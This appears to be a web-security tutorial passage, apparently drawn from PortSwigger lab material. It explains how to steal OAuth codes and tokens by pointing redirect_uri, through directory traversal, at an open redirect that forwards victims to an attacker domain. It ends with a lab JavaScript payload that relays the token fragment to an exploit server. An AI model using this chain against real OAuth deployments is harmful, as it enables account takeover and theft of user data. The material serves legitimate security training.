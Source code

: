 #### Stealing codes and access tokens via a proxy page
Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`. However, that doesn't mean it's time to give up.

By this stage, you should have a relatively good understanding of which parts of the URI you can tamper with. The key now is to use this knowledge to try and access a wider attack surface within the client application itself. In other words, try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.

Try to find ways that you can successfully access different subdomains or paths. For example, the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, which is unlikely to have any interesting subdirectories. However, you may be able to use [directory traversal](https://portswigger.net/web-security/file-path-traversal) tricks to supply any arbitrary path on the domain. Something like this:

```http
https://client-app.com/oauth/callback/../../example/path
```

May be interpreted on the back-end as:

```http
https://client-app.com/example/path
```

Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token. For the [authorization code flow](https://portswigger.net/web-security/oauth/grant-types#authorization-code-grant-type), you need to find a vulnerability that gives you access to the query parameters, whereas for the [implicit grant type](https://portswigger.net/web-security/oauth/grant-types#implicit-grant-type), you need to extract the URL fragment.

One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.

Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.

Script to extract the token from the fragment (#)
```js
<script> 
if (!document.location.hash) 
{ 
	window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' 
} 
else { window.location = '/?'+document.location.hash.substr(1) }
</script>
```
